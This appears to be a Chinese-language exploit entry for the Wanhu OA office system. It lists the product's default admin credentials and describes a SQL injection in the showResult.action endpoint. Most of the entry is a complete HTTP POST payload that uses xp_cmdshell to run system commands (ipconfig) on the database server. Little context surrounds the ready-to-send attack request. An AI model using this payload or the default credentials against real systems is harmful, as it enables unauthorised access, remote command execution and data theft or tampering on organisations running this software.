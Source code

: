 **默认账号密码：**

admin/111111

**漏洞描述：**

万户OA showResult.action接口未对用户输入进行充分的过滤和验证，攻击者可以通过注入恶意SQL语句的方式绕过身份认证，查询或篡改数据库中的数据。攻击者可以利用该漏洞执行恶意SQL语句，从而获取敏感信息、篡改数据等。

**影响版本：**

万户OA

**Payload：**

```python
POST /defaultroot/Graph!showResult.action HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length:69
Connection: close
Cookie: OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; LocLan=zh_CN; JSESSIONID=5AC1D44965A277C90D94B57DEDA82992; OASESSIONID=5AC1D44965A277C90D94B57DEDA82992; ezofficeDomainAccount=whir; empLivingPhoto=; ezofficeUserName=dsfssaq; ezofficeUserPortal=; ezofficePortal135=1
Upgrade-Insecure-Requests:1

database=localDataSource&dataSQL=exec+master..xp_cmdshell+"ipconfig";
```

---
